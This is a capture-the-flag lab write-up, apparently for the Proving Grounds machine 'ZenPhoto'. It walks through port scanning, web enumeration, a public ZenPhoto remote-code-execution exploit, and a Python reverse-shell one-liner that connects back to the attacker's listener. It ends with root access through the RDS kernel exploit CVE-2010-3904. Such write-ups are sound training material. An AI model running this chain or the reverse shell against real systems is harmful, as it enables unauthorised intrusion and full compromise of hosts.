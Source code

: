 ```yaml
---
description: Pg Practice ZenPhoto writeup
---
```


# ZenPhoto

![](<../../../.gitbook/assets/image (790).png>)

## Nmap

```
192.168.59.41 -sS -sV -p-        

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 5.3p1 Debian 3ubuntu7 (Ubuntu Linux; protocol 2.0)
23/tcp   open  ipp     CUPS 1.4
80/tcp   open  http    Apache httpd 2.2.14 ((Ubuntu))
3306/tcp open  mysql   MySQL (unauthorized)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## HTTP

Given the open ports that we have and the versions running on them I am going to jump straight into port 80.

![http://192.168.59.41/](<../../../.gitbook/assets/image (743).png>)

The root page for the target machine takes us to a blank page headed 'UNDER CONSTRUCTION'. Ideally we should break out some directory enumeration and `nikto`.

`feroxbuster` and `nikto` both pick up the directory /test/ and subsequent directories.

![Feroxbuster](<../../../.gitbook/assets/image (744).png>)

![Nikto](<../../../.gitbook/assets/image (745).png>)

The /test/ directory takes us to the following page which as per the bottom right is running on ZenPhoto.

![](<../../../.gitbook/assets/image (746) (1).png>)

Viewing the page source and scrolling to the bottom reveals the exact version of ZenPhoto that we are running.

![](<../../../.gitbook/assets/image (747).png>)

## Exploitation

A quick Google search for a exploit on this version of ZenPhoto reveals a result for a RCE exploit.

{% embed url="https://www.exploit-db.com/exploits/18083" %}

I downloaded the exploit and run it with the following syntax:

```
php exploit.php <Target-IP> <ZenPhoto-Dir>
```

![](<../../../.gitbook/assets/image (748).png>)

## Stable Shell

We now have a shell on the target machine and we are running as the user www-data. I found with this shell that when you try changing directories or running scripts it would have unexpected behaviour.

I performed a quick check to see if python was installed using `which python`. After confirming Python is installed I tried a quick one liner reverse shell to see if we can get a more stable one.

First I started a `netcat` listener on my attacking machine:

```
sudo nc -lvp 443
```

The run the following command on the target machine:

```
python -c 'import pty;import socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

We now have a more stable shell.

![](<../../../.gitbook/assets/image (749).png>)

## Privilege Escalation

I then started a `Python SimpleHTTPServer` on my attacking machine and downloaded some scripts for privilege escalation.

![](<../../../.gitbook/assets/image (750).png>)

I executed `suggester.sh` which picked up the follow exploit as being 'highly probable'.

```
[+] [CVE-2010-3904] rds

   Details: http://www.securityfocus.com/archive/1/514379
   Exposure: highly probable
   Tags: debian=6.0{kernel:2.6.(31|32|34|35)-(1|trunk)-amd64},ubuntu=10.10|9.10,fedora=13{kernel:2.6.33.3-85.fc13.i686.PAE},[ ubuntu=10.04{kernel:2.6.32-(21|24)-generic} ]
   Download URL: http://web.archive.org/web/20101020044048/http://www.vsecurity.com/download/tools/linux-rds-exploit.c
```

{% embed url="https://www.exploit-db.com/exploits/15285" %}

I downloaded the file onto the attacking machine using `wget` then compiled using `gcc`.

```
gcc exploit.c -o exploit
```

After compiling was finished I used `chmod` to make the exploit executable.

```
chmod +x exploit
```

I then executed the exploit and was able to gain a root shell.

![](<../../../.gitbook/assets/image (751) (1).png>)
